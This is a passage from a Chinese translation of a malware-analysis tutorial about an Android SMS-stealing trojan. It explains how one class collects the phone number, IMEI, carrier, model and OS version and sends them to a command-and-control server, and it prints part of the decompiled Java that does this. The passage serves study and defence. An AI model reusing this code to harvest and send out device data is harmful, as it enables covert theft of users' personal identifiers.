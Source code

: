 > 原文链接: https://www.anquanke.com//post/id/168574 


# 洞若观火：全方位剖析Android信息窃取恶意软件（下篇）


                                阅读量   
                                **179757**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者maxkersten，文章来源：maxkersten.nl
                                <br>原文地址：[https://maxkersten.nl/binary-analysis-course/malware-analysis/android-sms-stealer/](https://maxkersten.nl/binary-analysis-course/malware-analysis/android-sms-stealer/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p1.ssl.qhimg.com/t01857c5ff27accb495.gif)](https://p1.ssl.qhimg.com/t01857c5ff27accb495.gif)



## 传送门

《洞若观火：全方位剖析Android信息窃取恶意软件（上篇）》

[https://www.anquanke.com/post/id/XXXXXX](https://www.anquanke.com/post/id/XXXXXX)



## 六、源代码分析

### <a class="reference-link" name="6.9%20%E7%B1%BBi%EF%BC%88%E7%AC%AC%E4%BA%8C%E9%83%A8%E5%88%86%EF%BC%89"></a>6.9 类i（第二部分）

根据从ServerCommunicator类中得到的新信息，我们能更加容易地理解类i。首先，它将收集方法和ID。

如果指定的方法是install，它还会手机网络运营商、bild模型、版本号、电话号码、IMEI、恶意程序版本和所在国家。所有这些数据都将被发送至C&amp;C服务器。

如果指定的方法是info，那么只会将恶意程序的方法和ID发送到C&amp;C服务器。

最后，有一个名为sms的选项，这一方法的行为与info方法相同。

```
protected final Object doInBackground(Object[] urlArray) `{`
    Object var2 = null;
    boolean var3 = false;
    boolean var4 = MainService.e;
    String url = ((String[]) urlArray)[0];
    ServerCommunicator serverCommunicator = new ServerCommunicator();
    this.parameters.add(new BasicNameValuePair("method", this.command));
    this.parameters.add(new BasicNameValuePair("id", this.sharedPreferences.getString("id", (String) null)));
    JSONObject serverResponse;
    if (this.command.startsWith("install")) `{`
        String POST = "POST";
        this.parameters.add(new BasicNameValuePair("operator", TelephonyManagerWrapper.getTelephonyManager(context).getNetworkOperatorName()));
        this.parameters.add(new BasicNameValuePair("model", Build.MODEL));
        this.parameters.add(new BasicNameValuePair("os", VERSION.RELEASE));
        this.parameters.add(new BasicNameValuePair("phone", TelephonyManagerWrapper.getTelephonyManager(context).getLine1Number()));
```